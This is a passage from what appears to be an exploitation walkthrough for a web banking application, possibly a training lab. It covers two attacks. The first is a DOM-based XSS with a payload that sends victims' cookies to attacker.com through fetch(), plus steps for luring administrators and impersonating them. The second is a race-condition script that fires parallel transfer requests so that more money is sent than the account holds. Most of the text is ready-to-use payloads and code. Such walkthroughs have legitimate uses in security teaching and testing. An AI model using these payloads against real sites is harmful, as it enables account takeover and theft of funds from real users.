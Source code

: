 **Objective**: Execute JavaScript in user browsers to steal session tokens

### DOM-Based XSS Discovery
1. Examine client-side JavaScript for unsafe DOM manipulation
2. The API documentation page manipulates DOM based on the URL hash fragment
3. Test for basic XSS with:
   ```
   /api/documentation#<script>alert(1)</script>
   ```
4. When the page loads, JavaScript inserts the hash value into the innerHTML property without sanitization

### Exploitation
1. Craft a malicious hash value that executes JavaScript:
   ```
   /api/documentation#<img src=x onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
   ```
2. Send this URL to administrators or wait for them to visit the documentation
3. When they load the page, the JavaScript executes in their browser context
4. Their cookies, including authentication tokens, are sent to your server
5. Use the stolen cookies to impersonate the victim

## 5. Race Condition Exploitation in Banking Transactions

**Objective**: Exploit timing issues to perform multiple transactions with the same funds

### Discovery
1. Identify the quick transfer endpoint:
   ```
   POST /api/quick-transfer
   ```
2. Notice that there's a delay between checking the balance and updating it
3. This creates a race condition where multiple transfers can be initiated before the balance is updated

### Exploitation
1. Create a script that sends multiple transfer requests simultaneously:
   ```javascript
   async function exploitRaceCondition(token, amount, recipient, numRequests = 5) {
     const requests = [];
     for (let i = 0; i < numRequests; i++) {
       requests.push(fetch('/api/quick-transfer', {
         method: 'POST',
         headers: {
           'Content-Type': 'application/json',
           'Authorization': token
         },
         body: JSON.stringify({
           to: recipient,
           amount: amount
         })
       }));
     }
     
     return Promise.all(requests);
   }
   ```
2. Execute the script with a small amount of money that you have in your account
3. The race condition allows multiple transfers to be processed before your balance is updated
4. Result: You can send more money than you actually have
